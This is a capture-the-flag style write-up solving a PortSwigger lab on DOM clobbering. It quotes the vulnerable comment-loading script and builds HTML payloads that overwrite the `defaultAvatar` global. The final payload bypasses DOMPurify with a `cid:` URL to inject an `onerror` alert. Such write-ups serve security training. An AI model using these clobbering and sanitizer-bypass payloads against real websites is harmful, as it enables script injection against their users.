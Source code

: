 # Exploiting DOM clobbering to enable XSS

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering), you'll learn: Exploiting DOM clobbering to enable XSS! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★☆☆☆☆☆

## Background

This lab contains a DOM-clobbering vulnerability. The comment functionality allows "safe" HTML. To solve this lab, construct an HTML injection that clobbers a variable and uses [XSS](https://portswigger.net/web-security/cross-site-scripting) to call the `alert()` function.

> Note:
>  
> Please note that the intended solution to this lab will only work in Chrome.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114202512.png)

In the home page, we can view other posts:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114202532.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114202542.png)

And we can leave some comments!

**View source page:**
```html
[...]
<h1>Comments</h1>
<span id='user-comments'>
<script src='resources/js/domPurify-2.0.15.js'></script>
<script src='resources/js/loadCommentsWithDomClobbering.js'></script>
<script>loadComments('/post/comment')</script>
</span>
<hr>
<section class="add-comment">
    <h2>Leave a comment</h2>
    <form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
        <input required type="hidden" name="csrf" value="kHBcFRVLJKJsiUEmCWZj4eAKbm4AY16B">
        <input required type="hidden" name="postId" value="7">
        <label>Comment:</label>
        <div>HTML is allowed</div>
        <textarea required rows="12" cols="300" name="comment"></textarea>
                <label>Name:</label>
                <input required type="text" name="name">
                <label>Email:</label>
                <input required type="email" name="email">
                <label>Website:</label>
                <input pattern="(http:|https:).+" type="text" name="website">
        <button class="button" type="submit">Post Comment</button>
    </form>
</section>
[...]
```

As you can see, the post page **loaded the DOMPurify** JavaScript library, which is a XSS sanitizer for HTML.

It also **loaded a JavaScript file called `loadCommentsWithDomClobbering.js`**, and calling function `loadComments()` with `/post/comment` argument.

**`loadCommentsWithDomClobbering.js`:**
```js
function loadComments(postCommentPath) {
    let xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            let comments = JSON.parse(this.responseText);
            displayComments(comments);
        }
    };
    xhr.open("GET", postCommentPath + window.location.search);
    xhr.send();

    function escapeHTML(data) {
        return data.replace(/[<>'"]/g, function(c){
            return '&#' + c.charCodeAt(0) + ';';
        })
    }

    function displayComments(comments) {
        let userComments = document.getElementById("user-comments");

        for (let i = 0; i < comments.length; ++i)
        {
            comment = comments[i];
            let commentSection = document.createElement("section");
            commentSection.setAttribute("class", "comment");

            let firstPElement = document.createElement("p");

            let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'}
            let avatarImgHTML = '<img class="avatar" src="' + (comment.avatar ? escapeHTML(comment.avatar) : defaultAvatar.avatar) + '">';

            let divImgContainer = document.createElement("div");
            divImgContainer.innerHTML = avatarImgHTML

            if (comment.author) {
                if (comment.website) {
                    let websiteElement = document.createElement("a");
                    websiteElement.setAttribute("id", "author");
                    websiteElement.setAttribute("href", comment.website);
                    firstPElement.appendChild(websiteElement)
                }

                let newInnerHtml = firstPElement.innerHTML + DOMPurify.sanitize(comment.author)
                firstPElement.innerHTML = newInnerHtml
            }

            if (comment.date) {
                let dateObj = new Date(comment.date)
                let month = '' + (dateObj.getMonth() + 1);
                let day = '' + dateObj.getDate();
                let year = dateObj.getFullYear();

                if (month.length < 2)
                    month = '0' + month;
                if (day.length < 2)
                    day = '0' + day;

                dateStr = [day, month, year].join('-');

                let newInnerHtml = firstPElement.innerHTML + " | " + dateStr
                firstPElement.innerHTML = newInnerHtml
            }

            firstPElement.appendChild(divImgContainer);

            commentSection.appendChild(firstPElement);

            if (comment.body) {
                let commentBodyPElement = document.createElement("p");
                commentBodyPElement.innerHTML = DOMPurify.sanitize(comment.body);

                commentSection.appendChild(commentBodyPElement);
            }
            commentSection.appendChild(document.createElement("p"));

            userComments.appendChild(commentSection);
        }
    }
};
```

Basically what this JavaScript does is send a GET request to `/post/comment`, and then stores all the comments to a JSON data. After that, display all comments.

**However, it has an interesting thing:**
```js
let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'}
```

**This `defaultAvatar` object is using an bitwise OR operator with a global variable, which is a dangerous pattern!** This can lead to DOM clobbering vulnerability!

If we can **override the orginal `defaultAvatar` object with an anchor element**, we can inject some JavaScript!

**Also, the post comment functionality allows HTML!**

Armed with above information, we can try to override the `defaultAvatar` object:

```html
<a id=defaultAvatar><a id=defaultAvatar name=avatar href='"onerror=alert(document.domain)//'>
```

This will override the `defaultAvatar` object `avatar` attribute's property to `alert(document.domain)//`:

```js
{avatar: '"onerror=alert(document.domain)//'}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114210654.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114210717.png)

Then we need to submit a second comment, which will then uses the newly-clobbered global variable. This should smuggle the payload in the `onerror` event handler and triggers the `alert()`.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114210733.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114210805.png)

We successfully clobbered the `defaultAvatar` object, **however the `"` is URL encoded. Why?**

**This is because it's sanitized by DOMPurify:**
```js
commentBodyPElement.innerHTML = DOMPurify.sanitize(comment.body);
```

Luckly, we can bypass that.

**In DOMPurify, it allows us to use the `cid:` protocol, which doesn't URL encode double quotes.**

That bein said, **we can inject an HTML encoded double quote that will be decoded at runtime**!

**Final payload:**
```html
<a id=defaultAvatar><a id=defaultAvatar name=avatar href='cid:&quot;onerror=alert(document.domain)//'>
```

**Clobbered the `defaultAvatar` object:**
```js
{avatar: 'cid:"onerror=alert(document.domain)//'}
```

**Let's go to another post to override the `defaultAvatar` object!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114211042.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114211119.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114211132.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114211215.png)

It worked!

# What we've learned:

1. Exploiting DOM clobbering to enable XSS